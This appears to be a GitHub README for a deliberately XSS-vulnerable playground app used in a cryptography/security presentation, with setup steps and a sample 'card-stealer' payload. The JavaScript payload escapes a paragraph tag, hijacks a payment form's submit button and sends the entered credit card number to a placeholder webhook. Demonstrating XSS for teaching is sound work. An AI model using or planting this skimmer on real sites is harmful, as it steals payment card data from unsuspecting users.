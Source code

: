 # CryptographyXssPresentation
## An XSS enabled playground

#

### Requirements:
- Python 3

### Run instructions
 - Windows (Powershell)
   - `python -m venv venv`
   - `.\venv\Scripts\activate`
   - `pip install -r requirements.txt`
   - `python app.py`
- Linux (Bash)
   - `python3 -m venv venv`
   - `source ./venv/bin/activate`
   - `pip3 install -r requirements.txt`
   - `python3 app.py`

Sample card-stealer Script:
 > Overwrite the submit button in the payment form and send the form's contents to a webhook

```javascript
</p><script>
    let webhook_url = "WEBHOOK_URL"
    let payBtn = document.getElementById("payBtn");

    payBtn.addEventListener("click", function(event)
    {
        event.preventDefault();
        
        let creditCard = document.getElementById("creditInput");
        let headers = new Headers();
        headers.append("Content-Type", "application/json");

        let body = {
        "content": creditCard.value
        };
        let options = {
        method: "POST",
        headers,
        mode: "cors",
        body: JSON.stringify(body),
        };

        fetch(webhook_url, options);
    })
</script>
```